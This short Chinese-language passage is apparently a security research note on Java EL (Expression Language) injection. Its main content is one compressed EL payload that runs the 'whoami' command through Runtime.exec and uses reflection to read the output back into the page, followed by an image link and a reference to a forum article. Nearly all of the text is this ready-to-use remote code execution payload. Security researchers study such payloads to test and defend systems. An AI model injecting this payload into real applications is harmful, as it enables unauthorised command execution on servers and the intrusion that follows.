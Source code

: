 压缩到一个 EL 表达式

```
${pageContext.setAttribute("inputStream", Runtime.getRuntime().exec("whoami").getInputStream());Thread.sleep(1000);pageContext.setAttribute("inputStreamAvailable", pageContext.getAttribute("inputStream").available());pageContext.setAttribute("byteBufferClass", Class.forName("java.nio.ByteBuffer"));pageContext.setAttribute("allocateMethod", pageContext.getAttribute("byteBufferClass").getMethod("allocate", Integer.TYPE));pageContext.setAttribute("heapByteBuffer", pageContext.getAttribute("allocateMethod").invoke(null, pageContext.getAttribute("inputStreamAvailable")));pageContext.getAttribute("inputStream").read(pageContext.getAttribute("heapByteBuffer").array(), 0, pageContext.getAttribute("inputStreamAvailable"));pageContext.setAttribute("byteArrType", pageContext.getAttribute("heapByteBuffer").array().getClass());pageContext.setAttribute("stringClass", Class.forName("java.lang.String"));pageContext.setAttribute("stringConstructor", pageContext.getAttribute("stringClass").getConstructor(pageContext.getAttribute("byteArrType")));pageContext.setAttribute("stringRes", pageContext.getAttribute("stringConstructor").newInstance(pageContext.getAttribute("heapByteBuffer").array()));pageContext.getAttribute("stringRes")}
```

![Untitled](EL%20RCE%20%E5%9B%9E%E6%98%BE%20b28967b76bb84061b9f8ecb815210d40/Untitled%2027.png)

参考文章：[普通EL表达式命令回显的简单研究](https://forum.butian.net/share/886)